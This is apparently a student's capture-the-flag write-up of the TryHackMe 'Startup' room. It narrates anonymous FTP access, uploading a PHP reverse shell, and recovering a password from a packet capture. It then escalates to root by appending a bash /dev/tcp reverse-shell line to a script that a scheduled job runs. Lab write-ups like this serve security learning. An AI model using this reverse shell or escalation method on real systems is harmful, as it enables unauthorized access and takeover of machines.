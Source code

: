 ```yaml
---
Title: SWS101 Journal
categories: [SWS101, CTFjournal]
tags: [SWS101]
---
```


# Topic: Startup

This room has an introductory line ‘Abuse traditional vulnerabilities via untraditional means.’ And we’re going to follow that advice.

As usual, I started with an Nmap scan:

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-28-15.png>)

FTP anonymous login is allowed.

I logged in and found some files there.

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-30-05.png>)

I downloaded all the files using binwalk, steghide and exiftool to get something from *important.jpg*, but i didn't find anything.

So i ran gobuster to find hidden directories.

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-32-49.png>)

/files had the files i downloaded using ftp login before.

There was no content in the ftp directory. I downloaded a php reverse shell from pentestmonkey and modified the listening IP to my Attackbox IP. Then I uploaded it to the /ftp directory via ftp connection.

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-34-26.png>)

The file was there in the /ftp directory when accessed in browser.

I started a netcat listener on my Attackbox and accessed the php file. I got a connection back.

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-35-15.png>)

There was a file named ‘recipe.txt’. I opened it and found the secret recipe.

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-36-05.png>)

The main ingredient is ‘love’.

Now we have to get the user flag.

After a bit of looking around, I found that there is only one user in the home directory named ‘lennie’.

I tried to get into lennie’s home but as expected, it was not accessible. I had noticed earlier that there’s a directory named ‘incidents’. There was a file named ‘suspicious.pcapng’. I downloaded it to my local machine and analysed it on Wireshark. I noticed that there were multiple connection attempts to port 4444 from an IP address. I followed that TCP stream and found the password of ‘lennie’

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-36-55.png>)

I connected to the target with lennie’s password using ssh and got the user flag.

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-37-43.png>)

Now it’s time to get the root flag. I found planner.sh and startup_list.txt. I also checked the content of /etc/print.sh.

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-38-25.png>)

Using pspy64 I could see that planner.sh is running every minute and modifying the contents of startup_list.txt.

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-39-26.png>)

We can’t modify planner.sh, but we can modify /etc/print.sh. I ran the following command:

*echo “bash -i >& /dev/tcp/<attackbox_ip>/<listening_port> 0>&1” >> /etc/print.sh”*

I opened a listener in my Attackbox and in a minute I received the connection.

I got the root flag.

![alt text](<../assets/img/tryhackme_ctf/Screenshot from 2024-06-21 04-40-16.png>)
